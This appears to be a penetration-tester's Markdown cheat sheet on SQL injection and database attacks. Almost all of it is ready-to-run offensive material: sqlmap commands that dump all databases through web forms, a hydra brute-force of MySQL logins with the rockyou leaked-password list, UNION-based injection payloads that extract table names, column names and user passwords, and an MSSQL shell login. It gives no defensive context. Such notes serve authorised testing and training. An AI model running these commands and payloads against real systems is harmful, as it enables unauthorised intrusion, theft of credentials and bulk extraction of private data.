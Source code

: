# linux attacker

## check and dump information from sql injection

```bash
sqlmap --batch -a --forms -u "http://$rhost" --output-dir="."
sqlmap --batch -a --dump-all --forms -u "http://$rhost" --output-dir="."
```

## sqlmap use specific parameter and proxy

```bash
sqlmap -u http://rhost?id= --proxy socks5://127.0.0.1:1080
```


## bruteforce sql

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt $rhost mysql
```

## dump big tables with each column on seperate line when connected with mysql client

Replace ; with \G

```sql
select * from users\G
```

## manual sql injection

```bash
' or 1=1 union all select 1,2,3,4,5,6,table_name,8 from information_schema.tables --
' or 1=1 union all select 1,2,3,4,5,6,column_name,8 from information_schema.columns where table_name='some_table' --
' union select concat(id, '--', pass, '--', name),1 from users --
```

### manual sql enumeration

```sql
show Grants;
show variables;
```

## sql shell (e.g. for mssql)

```
sqsh -S "$rhost" -U some_user -P "some_pass"
```
